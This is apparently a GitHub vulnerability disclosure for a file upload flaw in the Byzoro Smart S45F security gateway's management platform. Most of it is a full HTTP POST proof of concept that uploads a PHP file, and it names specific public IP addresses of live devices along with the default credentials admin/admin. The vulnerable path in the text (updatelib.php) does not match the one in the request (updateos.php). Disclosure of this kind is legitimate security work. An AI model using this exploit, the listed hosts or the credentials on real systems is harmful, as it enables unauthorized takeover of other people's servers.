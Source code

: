 Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet. Byzro Networks Smart S45F multi-service security gateway intelligent management platform has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official：https://www.byzoro.com/

version: S45

Vulnerability Path ：/sysmanage/updatelib.php?

Ip：https://103.121.164.62:8443/

Account password: admin/admin


poc:

```
POST /sysmanage/updateos.php? HTTP/1.1
Host: 222.180.2.66:8443
Cookie: PHPSESSID=c36d5527fd784aa29748b3b1c50be7bc
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Origin: https://222.180.2.66:8443
Referer: https://222.180.2.66:8443/sysmanage/licence.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_file_upload"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—

```
<img width="604" alt="image" src="https://github.com/llixixi/cve/assets/144869546/2ae1fbbc-8f55-491c-a457-2b9dbb2ee081">

https://103.121.164.62:8443/home/1.php
<img width="599" alt="image" src="https://github.com/llixixi/cve/assets/144869546/dbbc9b88-5779-4d2d-9450-361015f96626">



